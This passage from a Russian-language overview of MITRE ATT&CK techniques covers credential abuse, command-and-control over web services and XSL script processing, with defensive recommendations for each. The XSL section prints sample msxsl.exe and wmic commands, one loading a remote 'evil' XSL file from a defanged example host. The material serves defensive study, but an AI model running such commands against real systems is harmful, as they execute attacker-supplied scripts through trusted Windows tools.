 
_Рекомендации по защите:_ Все вышеописанные файлы подлежат удалению из системы, если они не используются по прямому назначению пользователями.

### [Valid Accounts](https://attack.mitre.org/wiki/Technique/T1078)

_Описание:_ Злоумышленники могут украсть учетные данные определенного пользователя или учетную запись службы с помощью техник доступа к учетным данным, захватить учетные данные в процессе разведки с помощью социальной инженерии. Скомпрометированные учетные данные могут использоваться для обхода систем управления доступом и получения доступа к удаленным системам и внешним службам, таким как VPN, OWA, удаленный рабочий стол или получения повышенных привилегий в определенных системах и областях сети. В случае успешной реализации сценария злоумышленники могут отказаться от вредоносных программ, чтобы затруднить своё обнаружение. Так же злоумышленники могут создавать учетные записи используя заранее определенные имена и пароли для сохранения резервного доступа в случае неудачных попыток использования других средств.

_Рекомендации по защите:_ Применение парольной политики, следование рекомендациям по проектированию и администрированию корпоративной сети для ограничения использования привилегированных учетных записей на всех административных уровнях. Регулярные проверки доменных, локальных учетных записей и их прав с целью выявления тех, которые могут позволить злоумышленнику получить широкий доступ. Мониторинг активности учетных записей с помощью SIEM-систем.

### [Web-сервис (Web Service)](https://attack.mitre.org/wiki/Technique/T1102)

_Система:_ Windows  
_Права:_ Пользователь  
_Описание:_ Злоумышленники могут использовать запущенный, легитимный внешний Web-сервис в качестве средства передачи команд для управления зараженной системой. Серверы управления называют Command and control (С&C или С2). Популярные веб-сайты и социальные сети могут выступать в качестве механизма для C2, также могут применяться различные общедоступные сервисы типа Google или Twitter. Всё это способствует скрытию вредоносной активности в общем потоке трафика. Веб-сервисы обычно используют SSL/TLS, таким образом противники получают дополнительный уровень защиты.

_Рекомендации по защите:_ Брандмауэры и веб-прокси могут использоваться для реализации политик внешних сетевых коммуникаций. IDS/IPS-системы, использующие сигнатурный анализ, могут выявлять известные вредоносные программы на сетевом уровне. Однако стоит учитывать, что со временем противники изменят сигнатуры инструментов C2 или перестроят протоколы так, чтобы избежать обнаружения с помощью общеприменяемых средств защиты. Применения средств мониторинга поведения пользователей может также повысить шанс выявления аномальной активности.

### [Обработка XSL-скриптов (XSL Script Processing)](https://attack.mitre.org/wiki/Technique/T1220)

_Система:_ Windows  
_Права:_ Пользователь  
_Описание:_ Extensible Stylesheet Language (*.xsl), как правило, используется для описания обработки данных и рендеринга в XML-файлах. Для поддержки сложных операций в XSL есть возможность встраивания в код скриптов на различных языках. Злоумышленники могут злоупотреблять этой функциональностью, чтобы выполнять произвольные файлы. Подобно технике злоупотребления доверенными утилитами разработчиков (Trusted Developer Utilities), доверенная утилита msxsl.exe, выполняющая преобразование XML-документа в другой вид (html, wml, rtf, pdf и т.п.) может использоваться для выполнения вредоносного JavaScript, встроенного в локальные или удаленные (указанные с помощью URL-ссылки) XSL-файлы. Поскольку по умолчанию msxsl.exe не установлен, то противнику вероятнее всего придется упаковывать его и другие необходимые файлы. Пример вызова msxsl.exe:  
_msxsl.exe customers\[.\]xml script\[.\]xsl_.  
Другой вариант этой техники, именуемый Squiblytwo, заключается в использовании WMI для вызова JScript или VBScript из xsl-файла. В этой технике, подобно Squiblydoo, которая злоупотребляет regsrv32.exe, так же используется доверенные инструменты Windows:  
• Локальный файл: _wmic process list /FORMAT:evil\[.\]xsl;_  
• Удаленный файл: _wmic os get /FORMAT:«https\[:\]//example\[.\]com/evil\[.\]xsl»._

_Рекомендации по защите:_ Если в защищаемой среде не используется msxsl.exe, то заблокируйте его выполнение. Отключение WMI напротив может привести к нестабильности системы, поэтому требует предварительной оценки последствий.
